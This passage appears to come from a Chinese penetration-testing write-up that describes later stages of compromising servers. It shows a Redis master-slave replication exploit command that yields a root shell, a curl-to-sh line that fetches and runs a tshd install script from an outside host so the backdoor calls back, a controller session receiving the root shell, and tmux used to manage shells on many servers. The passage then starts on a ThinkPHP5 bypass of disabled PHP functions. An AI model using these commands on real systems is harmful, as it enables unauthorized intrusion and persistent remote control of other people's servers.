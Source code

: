 进一步，通过主从复制漏洞，我们获得了交互的 shell ，权限为 root 权限。

```text
python3 redis-rce.py -r admin.example.com -L 8.8.8.8 -f ../redis-rogue-server/exp.so -a admin@example.com
```

![img](https://pic4.zhimg.com/v2-a3a2e125cfda0a6f106bf4051e1f001b_b.jpg)

不过这样的shell限制很大，接下来我们使用了 tsh 反弹真实 shell ，过程是将 tshd 下载至服务器上并执行。

这里的一个坑点是目标服务器上的 linux 版本很低， libc 版本为 2.20 。在我们自己服务器上编译的 tshd 无法执行。在 libc2.20 ，linux 内核版本 2.62 的 docker 里编译后上传执行即可。


**阶段五: 自动化getshell**

在 docker 中编译的 [tshd](https://www.zhihu.com/search?q=tshd&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"article"%2C"sourceId"%3A"113925021"}) 的端口是指定的，不利于自动 getshell ，于是这里我们修改了 tsh ，使其可以指定 tsh 的监听端口和 tshd 的回连端口。接着在不同内核版本和 libc 版本的 linux 下编译，这样可以在目标服务器上通过一条命令下载对应版本的 tshd ，并成功反连。

此处带上特定的端口数据访问 index.php 后，index.php 会在本地编译 tshd 并返回安装 tshd 的脚本。

**Command端**

```text
curl 8.8.8.8/index.php --data "port=8888" | sh
```

**Controller端**

```text
root@my: ~/autotsh# cd linux2.6.32_libc2.1.2/
root@my: ~/autotsh/linux2.6.32_libc2.1.2/# ./tsh cb 8888
Waiting for the server to connect. . . Connected.
[root@example.com /]# ls -al
Total 1024
```

在确定反连的思路后，为了更加的方便，我们使用了 [tmux](https://www.zhihu.com/search?q=tmux&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"article"%2C"sourceId"%3A"113925021"}) 。

这样对于每一台服务器，我们都可以单独开一个 tmux 窗口并监听端口，等待 shell 反连。之后我们再 attach 到 tmux 的窗口，即可得到服务器 shell 。

```text
root@my: ~# tmux ls
0: 6 windows (created Fri Feb 7 11:11:11 2020) [204 x 51]
example.com: 1 window (created Fri Feb 11:11:11 2020) [204 x 51]
```

**补充: thinkphp5 + disable functions + php7 getshell**

在渗透过程中，我们还发现其中有一台服务器使用了 thinkphp5 的环境，且存在漏洞。在进行漏洞利用时，发现开启了 disable functions ，这也意味着原先 system 的攻击载荷无法使用，除此之外，由于 PHP 版本为 PHP7 ，这昭示着我们无法使用 dynamic assert 来 getshell 。在此我们使用了如下两种方案进行 getshell ，在此我们使用了如下两种方案进行getshell：

**1. session操纵+文件包含**

该方法的思路来源于以下链接：[https://xz.aliyun.com/t/6106](https://link.zhihu.com/?target=https%3A//xz.aliyun.com/t/6106)
